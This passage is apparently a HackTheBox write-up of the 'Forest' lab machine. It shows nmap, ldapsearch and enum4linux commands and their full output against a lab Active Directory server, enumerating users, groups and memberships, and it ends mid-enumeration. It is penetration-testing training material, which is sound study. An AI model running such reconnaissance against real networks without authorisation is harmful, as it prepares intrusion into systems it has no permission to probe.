

# Forest | HackTheBox

### 1. Scan
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-kk6zubslxy]─[~]
└──╼ [★]$ sudo nmap -A -p- -T4 10.129.1.77
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-29 12:24 UTC
Stats: 0:04:46 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 64.99% done; ETC: 12:31 (0:02:34 remaining)
Stats: 0:10:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.40% done; ETC: 12:34 (0:00:00 remaining)
Nmap scan report for 10.129.1.77
Host is up (0.23s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-12-29 12:42:31Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49683/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
49752/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/29%Time=5FEB21B7%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/29%OT=53%CT=1%CU=35139%PV=Y%DS=2%DC=T%G=Y%TM=5FEB22
OS:D9%P=x86_64-pc-linux-gnu)SEQ(SP=10A%GCD=1%ISR=10A%TI=I%CI=I%TS=A)SEQ(SP=
OS:10A%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=A)OPS(O1=M54DNW8ST11%O2=M54DNW8
OS:ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=20
OS:00%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M5
OS:4DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80
OS:%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q
OS:=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL
OS:=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h50m44s, deviation: 4h37m09s, median: 10m43s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2020-12-29T04:45:11-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-29T12:45:13
|_  start_date: 2020-12-29T12:32:54

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   221.77 ms 10.10.14.1
2   221.84 ms 10.129.1.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 725.01 seconds
```
The machine is running Windows with Active Directory services.
The FQDN is FOREST.htb.local.

### 2. Enumeration
Ldapsearch
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-kk6zubslxy]─[~]
└──╼ [★]$ ldapsearch -h 10.129.1.77 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=htb,DC=local
namingContexts: CN=Configuration,DC=htb,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=htb,DC=local
namingContexts: DC=DomainDnsZones,DC=htb,DC=local
namingContexts: DC=ForestDnsZones,DC=htb,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
Run enum4linux:
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-kk6zubslxy]─[~/enum4linux]
└──╼ [★]$ perl enum4linux.pl -a 10.129.1.77
WARNING: polenum.py is not in your path.  Check that package is installed and your PATH is sane.
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Dec 29 13:03:23 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.129.1.77
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =================================================== 
|    Enumerating Workgroup/Domain on 10.129.1.77    |
 =================================================== 
[E] Can't find workgroup/domain


 =========================================== 
|    Nbtstat Information for 10.129.1.77    |
 =========================================== 
Looking up status of 10.129.1.77
No reply from 10.129.1.77

 ==================================== 
|    Session Check on 10.129.1.77    |
 ==================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 437.
[+] Server 10.129.1.77 allows sessions using username '', password ''
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 451.
[+] Got domain/workgroup name: 

 ========================================== 
|    Getting domain SID for 10.129.1.77    |
 ========================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 359.
Domain Name: HTB
Domain Sid: S-1-5-21-3072663084-364016917-1341370565
[+] Host is part of a domain (not a workgroup)

 ===================================== 
|    OS information on 10.129.1.77    |
 ===================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 458.
Use of uninitialized value $os_info in concatenation (.) or string at enum4linux.pl line 464.
[+] Got OS info for 10.129.1.77 from smbclient: 
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 467.
[+] Got OS info for 10.129.1.77 from srvinfo:
Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED

 ============================ 
|    Users on 10.129.1.77    |
 ============================ 
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 866.
index: 0x2137 RID: 0x463 acb: 0x00020015 Account: $331000-VK4ADACQNUCA	Name: (null)	Desc: (null)
index: 0xfbc RID: 0x1f4 acb: 0x00020010 Account: Administrator	Name: Administrator	Desc: Built-in account for administering the computer/domain
index: 0x2369 RID: 0x47e acb: 0x00000210 Account: andy	Name: Andy Hislip	Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount	Name: (null)	Desc: A user account managed by the system.
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0x2352 RID: 0x478 acb: 0x00000210 Account: HealthMailbox0659cc1	Name: HealthMailbox-EXCH01-010	Desc: (null)
index: 0x234b RID: 0x471 acb: 0x00000210 Account: HealthMailbox670628e	Name: HealthMailbox-EXCH01-003	Desc: (null)
index: 0x234d RID: 0x473 acb: 0x00000210 Account: HealthMailbox6ded678	Name: HealthMailbox-EXCH01-005	Desc: (null)
index: 0x2351 RID: 0x477 acb: 0x00000210 Account: HealthMailbox7108a4e	Name: HealthMailbox-EXCH01-009	Desc: (null)
index: 0x234e RID: 0x474 acb: 0x00000210 Account: HealthMailbox83d6781	Name: HealthMailbox-EXCH01-006	Desc: (null)
index: 0x234c RID: 0x472 acb: 0x00000210 Account: HealthMailbox968e74d	Name: HealthMailbox-EXCH01-004	Desc: (null)
index: 0x2350 RID: 0x476 acb: 0x00000210 Account: HealthMailboxb01ac64	Name: HealthMailbox-EXCH01-008	Desc: (null)
index: 0x234a RID: 0x470 acb: 0x00000210 Account: HealthMailboxc0a90c9	Name: HealthMailbox-EXCH01-002	Desc: (null)
index: 0x2348 RID: 0x46e acb: 0x00000210 Account: HealthMailboxc3d7722	Name: HealthMailbox-EXCH01-Mailbox-Database-1118319013	Desc: (null)
index: 0x2349 RID: 0x46f acb: 0x00000210 Account: HealthMailboxfc9daad	Name: HealthMailbox-EXCH01-001	Desc: (null)
index: 0x234f RID: 0x475 acb: 0x00000210 Account: HealthMailboxfd87238	Name: HealthMailbox-EXCH01-007	Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0x2360 RID: 0x47a acb: 0x00000210 Account: lucinda	Name: Lucinda Berger	Desc: (null)
index: 0x236a RID: 0x47f acb: 0x00000210 Account: mark	Name: Mark Brandt	Desc: (null)
index: 0x236b RID: 0x480 acb: 0x00000210 Account: santi	Name: Santi Rodriguez	Desc: (null)
index: 0x235c RID: 0x479 acb: 0x00000210 Account: sebastien	Name: Sebastien Caron	Desc: (null)
index: 0x215a RID: 0x468 acb: 0x00020011 Account: SM_1b41c9286325456bb	Name: Microsoft Exchange Migration	Desc: (null)
index: 0x2161 RID: 0x46c acb: 0x00020011 Account: SM_1ffab36a2f5f479cb	Name: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}	Desc: (null)
index: 0x2156 RID: 0x464 acb: 0x00020011 Account: SM_2c8eef0a09b545acb	Name: Microsoft Exchange Approval Assistant	Desc: (null)
index: 0x2159 RID: 0x467 acb: 0x00020011 Account: SM_681f53d4942840e18	Name: Discovery Search Mailbox	Desc: (null)
index: 0x2158 RID: 0x466 acb: 0x00020011 Account: SM_75a538d3025e4db9a	Name: Microsoft Exchange	Desc: (null)
index: 0x215c RID: 0x46a acb: 0x00020011 Account: SM_7c96b981967141ebb	Name: E4E Encryption Store - Active	Desc: (null)
index: 0x215b RID: 0x469 acb: 0x00020011 Account: SM_9b69f1b9d2cc45549	Name: Microsoft Exchange Federation Mailbox	Desc: (null)
index: 0x215d RID: 0x46b acb: 0x00020011 Account: SM_c75ee099d0a64c91b	Name: Microsoft Exchange	Desc: (null)
index: 0x2157 RID: 0x465 acb: 0x00020011 Account: SM_ca8c2ed5bdab4dc9b	Name: Microsoft Exchange	Desc: (null)
index: 0x2365 RID: 0x47b acb: 0x00010210 Account: svc-alfresco	Name: svc-alfresco	Desc: (null)

Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 883.
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]

 ======================================== 
|    Share Enumeration on 10.129.1.77    |
 ======================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 640.

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.129.1.77

 =================================================== 
|    Password Policy Information for 10.129.1.77    |
 =================================================== 
[E] Dependent program "polenum.py" not present.  Skipping this check.  Download polenum from http://labs.portcullis.co.uk/application/polenum/


 ============================= 
|    Groups on 10.129.1.77    |
 ============================= 
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 542.

[+] Getting builtin groups:
group:[Account Operators] rid:[0x224]
group:[Pre-Windows 2000 Compatible Access] rid:[0x22a]
group:[Incoming Forest Trust Builders] rid:[0x22d]
group:[Windows Authorization Access Group] rid:[0x230]
group:[Terminal Server License Servers] rid:[0x231]
group:[Administrators] rid:[0x220]
group:[Users] rid:[0x221]
group:[Guests] rid:[0x222]
group:[Print Operators] rid:[0x226]
group:[Backup Operators] rid:[0x227]
group:[Replicator] rid:[0x228]
group:[Remote Desktop Users] rid:[0x22b]
group:[Network Configuration Operators] rid:[0x22c]
group:[Performance Monitor Users] rid:[0x22e]
group:[Performance Log Users] rid:[0x22f]
group:[Distributed COM Users] rid:[0x232]
group:[IIS_IUSRS] rid:[0x238]
group:[Cryptographic Operators] rid:[0x239]
group:[Event Log Readers] rid:[0x23d]
group:[Certificate Service DCOM Access] rid:[0x23e]
group:[RDS Remote Access Servers] rid:[0x23f]
group:[RDS Endpoint Servers] rid:[0x240]
group:[RDS Management Servers] rid:[0x241]
group:[Hyper-V Administrators] rid:[0x242]
group:[Access Control Assistance Operators] rid:[0x243]
group:[Remote Management Users] rid:[0x244]
group:[System Managed Accounts Group] rid:[0x245]
group:[Storage Replica Administrators] rid:[0x246]
group:[Server Operators] rid:[0x225]

[+] Getting builtin group memberships:
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Group 'Administrators' (RID: 544) has member: Couldn't lookup SIDs
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Group 'System Managed Accounts Group' (RID: 581) has member: Couldn't lookup SIDs
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Group 'Remote Management Users' (RID: 580) has member: Couldn't lookup SIDs
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Group 'Account Operators' (RID: 548) has member: Couldn't lookup SIDs
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Group 'Users' (RID: 545) has member: Couldn't lookup SIDs
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Group 'Guests' (RID: 546) has member: Couldn't lookup SIDs
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Group 'Windows Authorization Access Group' (RID: 560) has member: Couldn't lookup SIDs
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Group 'Pre-Windows 2000 Compatible Access' (RID: 554) has member: Couldn't lookup SIDs
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Group 'IIS_IUSRS' (RID: 568) has member: Couldn't lookup SIDs
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 542.

[+] Getting local groups:
group:[Cert Publishers] rid:[0x205]
group:[RAS and IAS Servers] rid:[0x229]
group:[Allowed RODC Password Replication Group] rid:[0x23b]
group:[Denied RODC Password Replication Group] rid:[0x23c]
group:[DnsAdmins] rid:[0x44d]

[+] Getting local group memberships:
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 574.
Group 'Denied RODC Password Replication Group' (RID: 572) has member: Couldn't lookup SIDs
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 593.

[+] Getting domain groups:
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Organization Management] rid:[0x450]
group:[Recipient Management] rid:[0x451]
group:[View-Only Organization Management] rid:[0x452]
group:[Public Folder Management] rid:[0x453]
group:[UM Management] rid:[0x454]
group:[Help Desk] rid:[0x455]
group:[Records Management] rid:[0x456]
group:[Discovery Management] rid:[0x457]
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]

[+] Getting domain group memberships:
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Domain Admins' (RID: 512) has member: HTB\Administrator
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Exchange Servers' (RID: 1118) has member: HTB\EXCH01$
Group 'Exchange Servers' (RID: 1118) has member: HTB\$D31000-NSEL5BRJ63V7
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Organization Management' (RID: 1104) has member: HTB\Administrator
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Domain Users' (RID: 513) has member: HTB\Administrator
Group 'Domain Users' (RID: 513) has member: HTB\DefaultAccount
Group 'Domain Users' (RID: 513) has member: HTB\krbtgt
Group 'Domain Users' (RID: 513) has member: HTB\$331000-VK4ADACQNUCA
Group 'Domain Users' (RID: 513) has member: HTB\SM_2c8eef0a09b545acb
Group 'Domain Users' (RID: 513) has member: HTB\SM_ca8c2ed5bdab4dc9b
Group 'Domain Users' (RID: 513) has member: HTB\SM_75a538d3025e4db9a
Group 'Domain Users' (RID: 513) has member: HTB\SM_681f53d4942840e18
Group 'Domain Users' (RID: 513) has member: HTB\SM_1b41c9286325456bb
Group 'Domain Users' (RID: 513) has member: HTB\SM_9b69f1b9d2cc45549
Group 'Domain Users' (RID: 513) has member: HTB\SM_7c96b981967141ebb
Group 'Domain Users' (RID: 513) has member: HTB\SM_c75ee099d0a64c91b
Group 'Domain Users' (RID: 513) has member: HTB\SM_1ffab36a2f5f479cb
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxc3d7722
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxfc9daad
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxc0a90c9
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox670628e
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox968e74d
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox6ded678
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox83d6781
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxfd87238
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxb01ac64
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox7108a4e
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox0659cc1
Group 'Domain Users' (RID: 513) has member: HTB\sebastien
Group 'Domain Users' (RID: 513) has member: HTB\lucinda
Group 'Domain Users' (RID: 513) has member: HTB\svc-alfresco
Group 'Domain Users' (RID: 513) has member: HTB\andy
Group 'Domain Users' (RID: 513) has member: HTB\mark
Group 'Domain Users' (RID: 513) has member: HTB\santi
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Exchange Trusted Subsystem' (RID: 1119) has member: HTB\EXCH01$
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group '$D31000-NSEL5BRJ63V7' (RID: 1133) has member: HTB\EXCH01$
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Service Accounts' (RID: 1148) has member: HTB\svc-alfresco
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Privileged IT Accounts' (RID: 1149) has member: HTB\Service Accounts
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Domain Controllers' (RID: 516) has member: HTB\FOREST$
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Schema Admins' (RID: 518) has member: HTB\Administrator
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Group Policy Creator Owners' (RID: 520) has member: HTB\Administrator
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Domain Computers' (RID: 515) has member: HTB\EXCH01$
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Managed Availability Servers' (RID: 1120) has member: HTB\EXCH01$
Group 'Managed Availability Servers' (RID: 1120) has member: HTB\Exchange Servers
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Domain Guests' (RID: 514) has member: HTB\Guest
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Exchange Windows Permissions' (RID: 1121) has member: HTB\Exchange Trusted Subsystem
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.
Group 'Enterprise Admins' (RID: 519) has member: HTB\Administrator
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 614.

 ====================================================================== 
|    Users on 10.129.1.77 via RID cycling (RIDS: 500-550,1000-1050)    |
 ====================================================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 710.
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.
Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 742.

 ============================================ 
|    Getting printer info for 10.129.1.77    |
 ============================================ 
